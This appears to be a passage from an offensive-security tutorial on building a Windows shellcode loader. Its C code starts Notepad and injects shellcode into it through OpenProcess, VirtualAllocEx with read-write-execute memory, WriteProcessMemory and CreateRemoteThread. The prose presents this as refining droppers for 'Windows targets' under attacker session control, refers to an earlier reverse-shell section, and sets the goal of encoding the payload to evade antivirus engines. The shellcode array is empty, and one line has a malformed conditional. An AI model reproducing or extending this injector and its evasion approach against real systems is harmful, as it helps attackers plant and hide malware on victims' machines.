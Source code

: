 Now, let's take a deeper look into our coding journey. We're not inventing something entirely new; instead, we're refining existing code droppers and loaders for Windows targets, making them responsive to our  session commands.

Our goal here is to run unrestricted shellcode. Our toolkit includes familiar Windows API functions: 'OpenProcess,' 'VirtualAllocEx,' 'WriteProcessMemory,' and 'CreateRemoteThread.' Think of it as conducting an orchestra, where each function plays a specific role in enabling the shellcode to do its job. We're in charge, and the Windows targets should be ready to follow our instructions.

```c
int main()
{
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};
    
(!CreateProcessW(
        L"C:\\Windows\\System32\\notepad.exe",
        NULL,
        NULL,
        NULL,
        FALSE,
        BELOW_NORMAL_PRIORITY_CLASS,
        NULL,
        NULL,
        &si,
        &pi
));
  
  char shellcode[] ={
  };

    HANDLE hProcess; 
    HANDLE hThread;
    void*exec_mem;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS,TRUE,pi.dwProcessId);
    exec_mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, exec_mem, shellcode, sizeof(shellcode), NULL);
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL,0,0);
    CloseHandle(hProcess);
    return 0;
}
```

Alright, do you notice any differences? Bingo, there's "shellcode." Let me clarify; the initial code segment was straightforward, mainly focusing on creating a new process (Notepad) and adjusting its priority class. However, the code we're dealing with now is more sinister, as it centers around remote process injection and the implementation of functions such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to allocate memory within a target process and execute custom shellcode within it.

Nevertheless, plaintext Metasploit (msf) shellcode tends to raise red flags and is susceptible to detection by antivirus engines. In the preceding section, we delved into shellcode development, particularly emphasizing a reverse shell. Yet, this code is simpler and can be swiftly pinpointed by antivirus engines. So, let's explore an alternative strategy how about encoding the shellcode into Read-Write-Execute (RWX) memory to initiate Notepad?
